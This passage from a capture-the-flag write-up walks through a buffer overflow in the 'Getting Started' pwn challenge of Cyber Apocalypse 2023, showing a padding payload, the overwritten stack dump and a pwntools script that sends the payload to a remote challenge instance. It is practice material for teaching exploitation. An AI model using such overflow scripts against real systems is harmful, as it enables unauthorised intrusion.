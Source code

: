 As you can see, we've filled 32 bytes of 41 ("A" in hex).

**Next, we need to fill the dummy value:**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Pwn/Getting-Started/challenge)-[2023.03.19|13:31:16(HKT)]
└> python3 -c "print('A' * 32 + 'B' * 8)" | ./gs
[...]
>> 

      [Addr]       |      [Value]       
-------------------+-------------------
0x00007ffe20b04720 | 0x4141414141414141 <- Start of buffer
0x00007ffe20b04728 | 0x4141414141414141
0x00007ffe20b04730 | 0x4141414141414141
0x00007ffe20b04738 | 0x4141414141414141
0x00007ffe20b04740 | 0x4242424242424242 <- Dummy value for alignment
0x00007ffe20b04748 | 0x00000000deadbe00 <- Target to change
0x00007ffe20b04750 | 0x0000562b5ed58800 <- Saved rbp
0x00007ffe20b04758 | 0x00007f8f37621c87 <- Saved return address
0x00007ffe20b04760 | 0x0000000000000001
0x00007ffe20b04768 | 0x00007ffe20b04838

HTB{f4k3_fl4g_4_t35t1ng}
```

As you can see, we successfully filled the dummy value to 8 42s ("B" in hex), and we got the flag!

**Now, we can modify the `wrapper.py` exploit script to send that payload to the instance machine:**
```py
#!/usr/bin/python3.8

'''
You need to install pwntools to run the script.
To run the script: python3 ./wrapper.py
'''

# Library
from pwn import *

# Open connection
IP   = '165.232.108.249' # Change this
PORT = 31475      # Change this

r    = remote(IP, PORT)

# Craft payload
payload = b'A' * 32 + b'B' * 8# Change the number of "A"s

# Send payload
r.sendline(payload)

# Read flag
success(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}')
```
